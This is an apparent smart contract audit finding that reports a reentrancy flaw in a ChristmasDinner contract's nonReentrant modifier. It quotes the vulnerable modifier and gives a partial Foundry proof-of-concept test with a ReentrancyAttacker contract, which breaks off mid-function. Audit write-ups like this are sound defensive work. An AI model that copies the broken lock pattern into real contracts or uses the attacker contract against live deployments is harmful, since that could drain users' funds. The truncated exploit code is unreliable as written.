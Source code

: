 ## Compatibilities

```
Compatibilities:
  Blockchains:
      - Ethereum
  Tokens:
      - ETH  
      - WETH
      - WBTC
      - USDC
```


# High

### [H-1] Critical Reentrancy Vulnerability in NonReentrant Modifier

**Description**: The nonReentrant modifier implementation contains a critical flaw in its reentrancy protection mechanism. The current implementation fails to set the lock before function execution and incorrectly manages the lock state. The actual vulnerability is found here:

```solidity
modifier nonReentrant() {
    require(!locked, "No re-entrancy");
    _;
    locked = false;
}
```

**Impact**: 

- Allows malicious contracts to reenter the contract during execution
- Potential complete drain of contract funds
- Bypassing of intended security measures

**Proof of Concept**:

```solidity
// In test file
function testReentrancyAttack() public {
    address attacker = makeAddr("attacker");
    // Setup attacker contract that implements receive() to reenter
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(address(christmasDinner));
    
    // Fund attacker
    vm.deal(address(attackerContract), 1 ether);
    
    // Trigger attack
    attackerContract.attack{value: 1 ether}();
    
    // Verify multiple reentrant calls succeeded
    assertGt(attackerContract.callCount(), 1);
}

contract ReentrancyAttacker {
    ChristmasDinner target;
    uint256 public callCount;
    
    constructor(address _target) {
        target = ChristmasDinner(_target);
    }
    
    function attack() external payable {
        // Initial deposit
```

[//]: # (contest-details-close)
[//]: # (scope-open)